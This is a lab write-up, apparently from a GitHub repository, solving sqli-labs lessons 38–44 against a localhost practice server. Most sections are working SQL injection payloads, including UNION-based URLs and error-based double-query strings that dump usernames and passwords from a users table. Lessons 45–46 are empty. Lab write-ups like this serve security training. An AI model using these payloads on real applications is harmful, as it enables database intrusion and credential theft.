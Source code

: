 # Chapter-12

This section will contain write-ups for the ```Stacked Injections``` section of sqli-labs. 

## Lesson 38

This is a rather simple challenge. 

The url for this challenge is as follows -

```
http://localhost/sqlilabs/Less-38/?id=-1' union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

:star2: Yaaaaay! This was the last challenge in the advanced section of ```sqli-labs```. 

## Lesson 39 

A simple challenge. Sql injection can be performed directly without breaking the query. 

The url for the same will look somewhat like this - 

```
http://localhost/sqlilabs/Less-39/?id=-1 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 40 

A simple blind injection challenge. On breaking the query with a ```'```, the website does not show any error message. Hence, we have to guess and fix the query. 

The url for this challenge is shown below - 

```
http://localhost/sqlilabs/Less-40/?id=-3') union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 41

This is also a blind injection challenge. We might skip the obvious here. 

We can get the data by performing a direct injection without breaking the query. 

The url for the same is shown below - 

```
http://localhost/sqlilabs/Less-41/?id=-3 union select 1, group_concat(username), group_concat(password) from users limit 0, 1 --+
```

## Lesson 42

This one is a bit tricky. 

Here both ```Forgot your password``` and ```Add New User``` options have been disabled. This sort of prevents us from using ```Second Order SQL Injection```.

On fuzzing the website, we find that the ```password field``` in the login page is vulnerable to sql injections. On passing ```'``` to the password field, the webpage shows a new page with an error message. 

Since, we are able to see the error message in the resulting webpage, we can use ```Double SQL Injection```.

On passing the below payload into the password, we get the name of the database being used - 

```sql 
admin' and (select 1 from (select count(*), concat((select database()), "::", floor(rand()*2), "::") as hack from information_schema.tables group by hack) as payload) #
```

On further modifying the above payload, we can get the usernames and passwords of all users - 

```sql
admin' and (select 1 from (select count(*), concat((select username from users limit 0, 1), "::", floor(rand()*2), "::") as hack from information_schema.tables group by hack) as payload)#
```

:warning: If you see the following error ```Subquery returns more than 1 row```, you'll just have to run the same query multiple times. 

:boom: Also, you will have change the limit offset in the above query to enumerate the rest of the usernames.

## Lesson 43

This challenge is similar to the previous challenge. Here making a minor change to the payload breaks the query.  

In this challenge, the password field is vulnerable just like in the previous challenge.  

Passing ```admin')``` breaks the query. The query can also be broken by passing just a ```'```.

The query can be patched by passing ```admin') #``` to the password field. 

Entering the below mentioned queries in the password field will yield the result - 

```sql
admin') and (select 1 from (select count(*), concat((select database()), "::", floor(rand()*2), "::") as hack from information_schema.tables group by hack) as payload) #
```

```sql
admin') and (select 1 from (select count(*), concat((select username from users limit 0, 1), "::", floor(rand()*2), "::") as hack from information_schema.tables group by hack) as payload)#
```
:warning: If you see the following error ```Subquery returns more than 1 row```, you'll just have to run the same query multiple times. 

:boom: Also, you will have change the limit offset in the above query to enumerate the rest of the usernames.

## Lesson 44 

This challenge is similar to lesson-43 and lesson-42. The only difference is that no error messages are being displayed when the query is broken. This indicates that we may have to resort to blind sql injection. 

We can get to the conclusion that this challenge can be solved with blind injection by doing the following - 

1.  Sign in as admin with the password as ```admin')```.
1.  This breaks the query and we are presented with a new webpage without any errors. 
1.  Now, again login as admin with the password as ```admin') #```.
1.  We are able to login sucessfully.

Thus we can conclude that, this challenge can be solved with blind injection. 

Now, this would require us to write a custom script that will enumerate all the entries in the database.

The script can be found [here](#).

## Lesson 45


## Lesson 46 

